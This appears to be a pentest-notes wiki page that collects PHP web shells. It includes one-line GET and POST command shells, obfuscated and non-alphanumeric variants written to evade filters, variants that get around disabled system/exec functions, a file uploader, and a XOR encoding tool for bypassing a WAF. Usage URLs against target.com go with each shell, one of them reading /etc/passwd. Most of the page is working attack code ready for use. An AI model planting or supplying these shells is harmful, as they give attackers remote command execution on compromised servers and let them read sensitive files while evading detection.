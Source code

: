 ```yaml
---
description: Several list of simple and obfuscate PHP shell
---
```


# Simple PHP Webshell

### Simple PHP Webshell

#### Simple HTTP Requests GET Method Shell

```
<?=`$_GET[0]`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
```

#### Simple HTTP Requests POST Method Shell

```
<?=`$_POST[0]`?>

[*] Usage: curl -X POST http://target.com/path/to/shell.php -d "0=command"
```

#### Support GET and POST Requests Method

```
<?=`{$_REQUEST['_']}`?>

[*] Usage:
 - http://target.com/path/to/shell.php?_=command
 - curl -X POST http://target.com/path/to/shell.php -d "_=command"
```

### Simple Obfuscated PHP Web Shell

#### Obfuscated PHP Web shell Example

```
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
[*] Note: This is obfuscation of <?=`$_GET[0]`?>
```

#### Non-alphanumeric obfuscation PHP Web Shell

```php
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>

[*] Usage: http://target.com/path/to/shell.php?_=function&__=argument
[*] E.g.: http://target.com/path/to/shell.php?_=system&__=ls
```

#### Another Example Obfuscation of Simple PHP Webshell

```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]($_[2])); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]($_[2])); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.:
    - http://target.com/path/to/shell.php?0=var_dump&1=scandir&2=.
    - http://target.com/path/to/shell.php?0=print_r&1=file_get_contents&2=/etc/passwd
```

#### Without Space Obfuscation PHP Web Shell

```php
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]);?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]($_[2]));?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.: http://target.com/path/to/shell.php?0=print_r&1=glob&2=*
```

#### Without Space and Non-alphanumeric Obfuscation PHP Web Shell

```php
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']);?>

[*] Usage: http://target.com/path/to/shell.php?__=function&___=argument
[*] E.g.: http://target.com/path/to/shell.php?__=system&___=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']($_['____']));?>

[*] Usage: http://target.com/path/to/shell.php?__=function1&___=function2&____=argument
[*] E.g.: http://target.com/path/to/shell.php?__=var_dump&___=scandir&____=/
```

### PHP Uploader

{% code overflow="wrap" %}
```php
<?php echo php_uname();echo '<br>';
echo '<br>';echo '<form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">';echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form>';if( $_POST['_upl'] == "Upload" ) {if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '<b>Uploaded</b><br><br>'; }else { echo '<b>Upload Failed !!!</b><br><br>'; }}?>
```
{% endcode %}

### XOR Shell

Encoder PHP webshell to bypass WAF using XOR operations.

```bash
git clone https://github.com/GgBoom-993/xorshell
cd xorshell/
python3 xorshell.py -m GET -p cmd -o asuka.php

### access
http://localhost:8000/asuka.php?cmd=system('id');
```

### Reference

* [https://github.com/bayufedra/Tiny-PHP-Webshell](https://github.com/bayufedra/Tiny-PHP-Webshell)
* [https://github.com/lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF)
